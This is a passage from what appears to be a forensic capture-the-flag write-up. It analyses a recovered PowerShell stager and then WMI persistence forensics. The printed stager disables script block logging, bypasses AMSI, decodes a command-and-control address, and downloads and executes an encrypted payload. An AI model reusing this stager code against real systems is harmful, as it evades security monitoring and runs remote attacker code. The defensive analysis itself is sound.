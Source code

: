 ```powershell
if($psversiontablepsversionmajor -ge 3){$f0c32=[ref]assemblygettype('systemmanagementautomationutils')"getfie`ld"('cachedgrouppolicysettings','n'+'onpublic,static');if($f0c32){$ea761=$f0c32getvalue($null);if($ea761['scriptb'+'locklogging']){$ea761['scriptb'+'locklogging']['enablescriptb'+'locklogging']=0;$ea761['scriptb'+'locklogging']['enablescriptblockinvocationlogging']=0}$val=[collectionsgenericdictionary[string,systemobject]]::new();$valadd('enablescriptb'+'locklogging',0);$valadd('enablescriptblockinvocationlogging',0);$ea761['hkey_local_machine\software\policies\microsoft\windows\powershell\scriptb'+'locklogging']=$val}else{[scriptblock]"getfie`ld"('signatures','n'+'onpublic,static')setvalue($null,(new-object collectionsgenerichashset[string]))}$ref=[ref]assemblygettype('systemmanagementautomationamsi'+'utils');$refgetfield('amsiinitf'+'ailed','nonpublic,static')setvalue($null,$true);};[systemnetservicepointmanager]::expect100continue=0;$b3904=new-object systemnetwebclient;$u='mozilla/50 (windows nt 61; wow64; trident/70; rv:110) like gecko';$ser=$([textencoding]::unicodegetstring([convert]::frombase64string('aab0ahqacaa6ac8alwaxadkamgauadeanga4ac4amaauadianwa6adcanwa3adca')));$t='/admin/getphp';$b3904headersadd('user-agent',$u);$b3904proxy=[systemnetwebrequest]::defaultwebproxy;$b3904proxycredentials = [systemnetcredentialcache]::defaultnetworkcredentials;$script:proxy = $b3904proxy;$k=[systemtextencoding]::asciigetbytes('/y0dzf;_)nkl^~m#k(xg]*rofe,c}2%r');$r={$d,$k=$args;$s=0255;0255|%{$j=($j+$s[$_]+$k[$_%$kcount])%256;$s[$_],$s[$j]=$s[$j],$s[$_]};$d|%{$i=($i+1)%256;$h=($h+$s[$i])%256;$s[$i],$s[$h]=$s[$h],$s[$i];$_-bxor$s[($s[$i]+$s[$h])%256]}};$b3904headersadd("cookie","lvzofoofzaivdvtv=kwvhnwexsgzizxxp+6go0di09jg=");$data=$b3904downloaddata($ser+$t);$iv=$data[03];$data=$data[4$datalength];-join[char[]](& $r $data ($iv+$k))|iex
```

Reading through the script block, i noted a base64 encoded string. Decoding the base64 string, we get the c2 server URL and port (http://192.168.0.27:7777)

![image](https://user-images.githubusercontent.com/58165365/192340047-7d82d2c8-9171-46d1-8f2e-60828a230ca2.png)

### Part 2 of the flag

---

From a defenders perspective, one common Technique used by TA to maintain persistence on a system is by abusing WMI (Windows Management Instrumentation) - [T1546.003](https://attack.mitre.org/techniques/T1546/003/). David French, a Threat Researcher does an excellent job explaining this on his [blog](<(https://medium.com/threatpunter/detecting-removing-wmi-persistence-60ccbb7dff96)>).

> **~MITRE:** _Adversaries may establish persistence and elevate privileges by executing malicious content triggered by a Windows Management Instrumentation (WMI) event subscription. WMI can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Examples of events that may be subscribed to are the wall clock time, user loging, or the computer's uptime. Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system._

WMI uses the Common Information Model (CIM) to represent classes of information.The CIM database consists of multiple files (`OBJECTS.DATA`, `MAPPING*.MAP`, `INDEX.BTR` and prior to Windows Vista `MAPPING.VER`) that are located in the following directory `C:\Windows\System32\WBEM\repository\` as shown below:

![image](https://user-images.githubusercontent.com/58165365/192342019-bcd4a33d-7e54-428e-a8f6-86eeb032ea54.png)

We only need to extract `OBJECTS.DATA` and use the [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) script to find WMI persistence via FitlerToConsumerBindings.

Some good reads on the same:

